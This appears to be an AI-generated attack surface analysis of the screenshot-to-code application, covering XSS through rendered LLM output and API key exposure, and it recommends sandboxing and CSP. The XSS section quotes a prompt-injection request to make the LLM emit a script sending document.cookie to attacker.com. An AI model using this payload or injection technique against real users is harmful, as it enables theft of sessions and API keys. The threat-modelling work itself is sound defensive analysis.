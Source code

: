 Here's the updated Attack Surface Analysis for the `screenshot-to-code` application, incorporating findings from the latest PROJECT FILES.

---

### Attack Surface Analysis for `screenshot-to-code`

#### 1. Arbitrary Code Execution (XSS) via Generated Output

*   **Description:** The core functionality of the `screenshot-to-code` application involves generating functional code (HTML, JavaScript, CSS, React, Vue, SVG) based on user input (screenshots, text prompts, video recordings). This generated code is then rendered directly within the frontend for immediate preview. If a malicious user can craft input that causes the AI to generate harmful code, this code will be executed in the user's browser, leading to a Cross-Site Scripting (XSS) attack.
*   **How `screenshot-to-code` contributes:**
    *   The application explicitly generates "functional code" in various client-side frameworks, which by design means it creates executable content.
    *   The generated output is directly loaded and displayed in the frontend, providing a live execution environment within the user's browser context.
    *   Large Language Models (LLMs) are known to be susceptible to prompt injection, which could be exploited to coerce them into generating malicious code snippets.
    *   The prompt construction logic (as seen in `tests/test_prompts.py`) confirms that the LLMs are instructed to generate web page code, which is then rendered.
*   **Example:** An attacker could provide a text prompt like: "Generate a simple HTML page that includes a hidden `<script>` tag with `document.location='http://attacker.com/?cookie=' + document.cookie`." If the LLM generates this script, and it's rendered, it could exfiltrate the user's browser-side API keys, session tokens, or other sensitive data, leading to account compromise or further client-side attacks.
*   **Impact:** Compromise of user accounts, data theft (e.g., API keys stored in the browser), session hijacking, defacement of the application, or other client-side attacks.
*   **Risk Severity:** Critical
*   **Current Mitigations:** None explicitly mentioned for sanitizing or sandboxing the *generated code before rendering*. The LLM system prompts attempt to guide the AI towards safe code, but this is not a security control against malicious output.
*   **Missing Mitigations:**
    *   **Client-Side Sandboxing:** Render the generated code within an `iframe` with a strict `sandbox` attribute (e.g., `sandbox="allow-scripts allow-forms"` but carefully controlled to prevent parent frame access and network requests).
    *   **Content Security Policy (CSP):** Implement a strict CSP on the page rendering the generated code to limit script sources, inline scripts, and other potential vectors.
    *   **AI Output Validation:** Implement checks on the generated code for common malicious patterns (e.g., `eval()`, suspicious external script includes, known XSS vectors) before rendering, although this is challenging for arbitrary code.

#### 2. API Key Compromise/Exposure

*   **Description:** The application relies on API keys for external services (OpenAI, Anthropic, Google Gemini, Replicate, ScreenshotOne) to function. The compromise or exposure of these keys could lead to unauthorized use of these paid services, incurring significant costs, exhausting rate limits, or enabling further attacks against the application or its users.
*   **How `screenshot-to-code` contributes:**
    *   API keys are loaded from environment variables (`.env` file) for backend operations.
    *   Users can provide API keys directly via the frontend settings dialog, which the `Troubleshooting.md` states are "only stored in your browser. Never stored on our servers." for the hosted version, but for local deployments, these keys are transmitted to the backend.
    *   The Docker setup also explicitly uses `.env` files for `OPENAI_API_KEY`.
*   **Example:**
    *   An attacker gains access to the `.env` file on a development machine or a deployed server, obtaining all configured API keys.
    *   A successful XSS attack (see #1) could exfiltrate API keys stored in the user's browser's local storage or other client-side storage mechanisms.
    *   Insecure logging or debugging features might inadvertently expose API keys if not carefully managed.
